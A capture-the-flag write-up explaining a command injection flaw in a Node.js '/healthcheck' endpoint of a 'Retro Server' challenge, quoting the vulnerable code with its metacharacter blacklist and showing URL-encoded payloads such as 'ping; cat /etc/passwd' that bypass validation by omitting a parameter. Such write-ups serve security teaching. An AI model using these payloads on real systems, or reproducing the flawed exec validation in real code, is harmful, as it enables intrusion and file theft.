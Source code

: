 ## Command Injection Vulnerability in Retro Server

The vulnerability lies in the `/healthcheck` endpoint, specifically how it processes the `cmd` and `arg` parameters.

### Vulnerability Analysis

The provided code snippet from `app/app.js` shows the following logic:

```javascript
// Blacklist of blocked arguments to detect hackers
const blacklistArgs = [";", "&&", "|", ">", "<"];

const baseCmd = allowed.find((allowedCmd) => cmd.includes(allowedCmd));

let fullCmd = cmd;
if (arg) {
  const argsArray = arg.trim().split(/\s+/);
  const validArgs = allowedArgs[baseCmd] || [];

  const hasBlacklisted = argsArray.some((argPart) =>
    blacklistArgs.some((bad) => argPart.toLowerCase().includes(bad))
  );
  if (hasBlacklisted) {
    const hackMessage = `Hacking attempt detected from IP ${req.ip} with cmd: "${cmd}" and arg: "${arg}"`;
    return res.render("healthcheck", { output: hackMessage });
  }

  const allArgsValid = argsArray.every((argPart) =>
    validArgs.includes(argPart)
  );
  if (!allArgsValid) {
    return res.render("healthcheck", {
      output: `Invalid arguments for ${baseCmd}! Allowed: ${
        validArgs.length ? validArgs.join(", ") : "none"
      }`,
    });
  }

  fullCmd = `${cmd} ${arg}`;
}

try {
  const { stdout, stderr } = await execPromise(fullCmd);
  if (stderr) {
    return res.render("healthcheck", { output: stderr });
  }
  res.render("healthcheck", { output: stdout });
} catch (error) {
  res.render("healthcheck", { output: error.message });
}
```

1.  The code checks for blacklisted characters (`;`, `&&`, `|`, `>`, `<`) and validates arguments _only if the `arg` parameter is provided_.
2.  If the `arg` parameter is missing or empty, the validation block is skipped.
3.  In this case, `fullCmd` is set directly to the value of the `cmd` parameter.
4.  This `fullCmd` is then executed on the server using `execPromise(fullCmd)`.

This means we can inject arbitrary commands by sending a `cmd` parameter containing a command separator (like `;`) followed by our desired command, and omitting the `arg` parameter (or sending it as an empty string).

### Exploitation Steps

1.  **Identify an Allowed Command**:
    The application has a list of `allowed` commands. The `baseCmd` is derived from the `cmd` parameter if it contains one of these allowed commands. We need to find or guess one of these. Common commands like `ping`, `ls`, `echo`, `date` are good candidates to try. Let's assume `ping` is an allowed command for this example.

2.  **Craft the Payload**:
    To execute `cat /etc/passwd` (as an example for reading a file), the payload would be:

    - `cmd` parameter: `ping; cat /etc/passwd`
    - `arg` parameter: (omit this parameter or send it as an empty string)

3.  **Send the Request**:
    The request would likely be a GET or POST request to the `/healthcheck` endpoint. Based on the `README.md`, the base URL is `https://cyberskills.ch:5003/`.
    So, an example request URL could be:
    `https://cyberskills.ch:5003/healthcheck?cmd=ping%3B%20cat%20%2Fetc%2Fpasswd`

    (Note: `%3B` is the URL encoding for `;` and `%20` is for space. Ensure your HTTP client or browser correctly encodes these if you type them directly.)

### Example Solution (to read a flag file)

Assuming the flag is in a file named `flag.txt` in the current directory or a known path:

1.  **Find an allowed command**: Try sending `ping` as the `cmd` parameter with no `arg` parameter. If it works, `ping` is allowed.
    `https://cyberskills.ch:5003/healthcheck?cmd=ping`

2.  **Construct the payload to read `flag.txt`**:
    `cmd=ping; cat flag.txt`

3.  **Send the malicious request**:
    `https://cyberskills.ch:5003/healthcheck?cmd=ping%3B%20cat%20flag.txt`

If `ping` is not allowed, try other common commands until one is found to be part of the `allowed` list. The key is that the argument validation and blacklist check are bypassed if the `arg` parameter is not present in the request.
